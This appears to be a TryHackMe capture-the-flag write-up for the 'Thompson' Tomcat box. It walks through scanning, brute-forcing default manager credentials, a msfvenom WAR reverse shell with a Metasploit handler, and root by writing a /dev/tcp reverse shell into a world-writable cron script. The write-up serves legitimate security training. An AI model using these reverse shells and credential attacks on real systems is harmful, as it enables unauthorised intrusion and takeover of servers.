 ```yaml
---
render_with_liquid: false
title: Thompson
date: 2023-01-02 05:41 +1400
tags: [tryhackme, linux, nmap, tomcat, default-credentials, tomcat2rce, msfvenom, scheduled-job-abuse, bash-script]
---
```




https://tryhackme.com/room/bsidesgtthompson

# Enum

```bash
root@ip-10-10-247-45:~# nmap -sV -sC -Pn  10.10.123.79 -oA thompson

Starting Nmap 7.60 ( https://nmap.org ) at 2023-01-02 05:41 GMT
Nmap scan report for ip-10-10-123-79.eu-west-1.compute.internal (10.10.123.79)
Host is up (0.00095s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (EdDSA)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
MAC Address: 02:7C:BE:4F:82:63 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```


# Search Exploit

- `Nuclei` will find `CVE-2020-1938`
- Searchsploit
```bash
root@ip-10-10-247-45:~# searchsploit tomcat 8.5
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP  | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP  | windows/webapps/42953.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(root㉿kali)-[~/tools/frp_0.46.0_linux_amd64]
└─# searchsploit tomcat ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                                           | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                                             | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


# Login

Ran hydra to bruteforce `/manager` but failed

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.10.170.186 -s 8080 http-get /manager/html -I -vV
```

- Found default creds is `401` page - `tomcat`:`s3cret`
```html
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```


# Upload Reverse Shell

There's an option to deploy war file in `manager` page
![](/assets/obsidian/5c4240778346975187ae7d7bc8887862.png)


## Refers 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war


## Generate War revshell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
```


# User Flag


## Metasploit Listener

```powershell
msfconsole
search java reverse type:payload
use java/jsp_shell_reverse_tcp
set lhost=tun0
msf6 payload(java/jsp_shell_reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
```

Trigger Rev Shell
```bash
curl http://tomcat.thm:8080/reverse/
```

Upgrade Shell to meterpreter
```bash
sessions -u 1
sessions 2
```

Get pty Shell
```bash
meterpreter > execute -if bash
Process 1874 created.
Channel 7 created.

python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/home/jack$ 
```

FLAG
```bash
tomcat@ubuntu:/home/jack$ cat user.txt
39400c90bc683a41a8935e4719f181bf
```


# Root

`id.sh` is writeable
```bash
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
-rwxrwxrwx 1 jack jack   19 Jan  2 02:15 id.sh
-rw-r--r-- 1 root root   39 Jan  2 02:02 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
```

Check crontab
```bash
cat /etc/crontab
*  *    * * *   root    cd /home/jack && bash id.sh
```

Write Revshell
```bash
echo "bash -i >& /dev/tcp/10.11.19.145/1111 0>&1" > id.sh
```

Wait for cronjob to exec the shell script as root
```bash
┌──(root㉿kali)-[/home/kali]
└─# rlwrap nc -lvnp 1111
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.170.186.
Ncat: Connection from 10.10.170.186:58960.
bash: cannot set terminal process group (14018): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# cat /root/root.txt
cat /root/root.txt
d89d5391984c0450a95497153ae7ca3a
root@ubuntu:/home/jack# 
```

